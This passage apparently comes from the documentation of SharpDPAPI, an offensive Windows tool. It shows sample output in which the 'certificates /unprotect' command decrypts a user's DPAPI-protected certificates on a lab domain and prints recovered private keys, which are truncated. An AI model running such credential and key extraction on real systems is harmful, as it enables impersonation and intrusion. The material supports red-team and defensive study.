        [*] Private key file 34eaff3ec61d0f012ce1a0cb4c10c053_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered:

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA0WDgv/jH5HuATtPgQSBie5t...(snip)...
    -----END RSA PRIVATE KEY-----
    -----BEGIN CERTIFICATE-----
    MIIFujCCBKKgAwIBAgITVQAAAJf6yKyhm5SBVwA...(snip)...
    -----END CERTIFICATE-----

Using `/unprotect` to decrypt any found user certificates:

    C:\Temp> SharpDPAPI.exe certificates /unprotect

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.11.3


    [*] Action: Certificate Triage

    [*] Using CryptUnprotectData() for decryption.


    Folder       : C:\Users\harmj0y\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-937929760-3187473010-80948926-1104

      File               : f29fa2bb6de62b7d966a407ef203ac45_3fef0615-487e-485b-84b0-193b510dec3b

        Provider GUID    : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
        Master Key GUID  : {27db0044-e2aa-4ea2-b2c0-c469e9b29ed9}
        Description      : Private Key
        algCrypt         : CALG_AES_256 (keyLen 256)
        algHash          : CALG_SHA_512 (32782)
        Salt             : d7e1e00ed8a6249b5f05c487154e83cc0b51f71131530d0d46d3bfc63d890468
        HMAC             : 4869f296cdcc964262a57e2efc4f2c5df57c2ed7319e297daa2107810da5c171
        Unique Name      : {4A07001C-57BE-4E8B-86D1-43CACDF8D448}

        Thumbprint       : BBD9B90FE1A4E37BD646CBC922ABE06C24C1E725
        Issuer           : CN=theshire-DC-CA, DC=theshire, DC=local
        Subject          : CN=harmj0y
        Valid Date       : 10/18/2022 11:40:07 AM
        Expiry Date      : 10/18/2023 12:00:07 PM
        Enhanced Key Usages:
            Client Authentication (1.3.6.1.5.5.7.3.2)
             [!] Certificate is used for client auth!
            Server Authentication (1.3.6.1.5.5.7.3.1)

        [*] Private key file f29fa2bb6de62b7d966a407ef203ac45_3fef0615-487e-485b-84b0-193b510dec3b was recovered:

    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAxVEW49fMt...(snip)...
    -----END RSA PRIVATE KEY-----
    -----BEGIN CERTIFICATE-----
    MIIDKjCCAhKgAwIBAgIQYwhUr...(snip)...
    -----END CERTIFICATE-----
